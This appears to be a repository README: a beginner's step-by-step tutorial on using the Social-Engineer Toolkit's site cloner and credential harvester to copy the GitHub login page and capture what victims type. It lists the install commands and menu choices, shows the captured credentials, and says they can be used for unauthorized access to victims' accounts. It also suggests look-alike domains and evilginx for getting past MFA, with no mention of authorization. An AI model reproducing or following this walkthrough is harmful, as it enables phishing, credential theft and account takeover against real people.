

# Getting Started With Social Engineering Toolkit


[Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit)  is an advanced framework designed for social engineering attacks, allowing attackers to deploy various techniques to manipulate victims and extract sensitive information.  
SET supports a wide range of social engineering tactics including phishing, spear-phishing, credential harvesting, and more.  
This makes SET a powerful tool for penetration testers and malicious attackers alike, capable of bypassing traditional security measures.  
This repository contains a beginner tutorial on using SET to create a phishing page that emulates the Github login page to steal user credentials.  

## Instructions 
Download and install the Social-Engineer Toolkit via the [apt package]()  or clone the [official repository](https://github.com/trustedsec/social-engineer-toolkit) (the tool is already installed out of the box on Kali):

```sh
sudo apt update && sudo apt install -y set
```

Alternatively, clone and install from the repository:


```sh
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
python setup.py install
```

Start the Social-Engineer Toolkit:


```sh
sudo setoolkit
```  
  


Choose the Social-Engineering Attacks option:


```sh
1) Social-Engineering Attacks
```

Select the Website Attack Vectors:


```sh
2) Website Attack Vectors
```

Choose the Credential Harvester Attack Method:


```sh
3) Credential Harvester Attack Method
```

Select the Site Cloner option to create a clone of the target website:


```sh
2) Site Cloner
```  

Set the IP address for the POST back in Harvester/Tabnabbing (leave the default - your local IP):


```console
Enter the IP address for the POST back in Harvester/Tabnabbing: [Your IP]
```  

Enter the URL to clone (e.g., [https://github.com/login](https://github.com/login) ):

```sh
https://github.com/login
```

SET will clone the website and set up the attack.  
The cloned site will be hosted on your local machine, and the credentials entered by victims will be captured and displayed in the SET console.

To test the phishing page, open a web browser and navigate to [http://localhost](http://localhost)  


Here is what the phishing page will look like:  

  
As you can see there are not eye-discernible differences from the real github login.  


Enter valid credentials to see how they are captured by SET.  


SET captures the user credentials and displays them in the console:


  


At this point, you have successfully captured the user credentials. You can now use these credentials to gain unauthorized access to the victim's account.  

Please note that this is a basic, beginners tutorial.  
In the real world you would likely buy a look-alike domain and expose the malicious harvesting page via your domain.  
Also, nowadays, many website enforce strong security controls and require MFA by default, in this case you will likely need a tool like [evilginx](../evilginx/README.md)  

